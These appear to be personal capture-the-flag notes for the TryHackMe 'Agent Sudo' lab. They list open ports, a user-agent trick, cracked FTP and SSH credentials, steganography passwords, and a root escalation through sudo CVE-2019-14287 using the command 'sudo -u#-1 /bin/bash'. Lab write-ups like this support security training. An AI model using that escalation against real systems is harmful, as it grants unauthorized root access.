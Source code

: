 Easy TryHackMe box: AgentSudo

`Machine IP: 10.10.x.x
`

`Open Ports:
22			## ssh brute-forcing
80			## user-agent 
21 			## vsftpd 3.0.3 
`

`For the http site we can use burp to change the user agent to C and get access
`

`User/Passwords:
chris/crystal (ftp)
james/hackerrules! (ssh)
`

`Steg:
cute-alien.jpg steghide file
password: Area51
cutie.png zip file (binwalk -e)
password to zip file: alien
`

`Osint:
Alien-autopsy: reverse image search(google images)
`


##New stuff

`Priv-esc:
sudo -l
it's a sudo vuln from 2019 CVE 2019-14287
sudo -l --> tells us we can exec /bin/bash as (james, !root)

but this can be bypassed using:
`

___sudo -u#-1 /bin/bash____
